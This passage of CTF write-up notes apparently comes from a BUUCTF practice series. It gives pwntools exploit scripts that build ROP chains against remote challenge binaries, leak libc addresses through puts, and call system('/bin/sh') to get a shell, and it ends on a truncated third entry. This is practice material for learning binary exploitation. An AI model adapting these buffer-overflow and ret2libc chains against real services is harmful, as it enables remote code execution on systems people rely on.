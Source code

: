 ```python

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25743)
elf = ELF('./pwn')
# libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')

poprdi_ret = 0x400c83

payload = b'\x00' + cyclic(0x50+7)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols[b'main'])

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)
print(io.recv(12))

put_addr = u64(io.recv(6) + b'\x00\x00')
print(hex(put_addr))
libc = LibcSearcher('puts', put_addr)
libc_base = put_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

print(hex(sys_addr))
print(hex(binsh_addr))

payload = b'\x00' + cyclic(0x50+7)
payload += p64(0x4006b9)	# ret
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(sys_addr)

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)

io.interactive()
```
# buu015-[HarekazeCTF2019]baby_rop

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28394)
elf = ELF('./pwn')

binsh_addr = 0x600a90
poprdi_ret = 0x4006b3

io.sendlineafter(b'Input:', cyclic(0x88) + p64(poprdi_ret) + p64(binsh_addr) + p64(elf.plt['system']))

io.interactive()
```
# buu016-jarvisoj_level2_x64
```python
from pwn import *

# io = process('./pwn')
```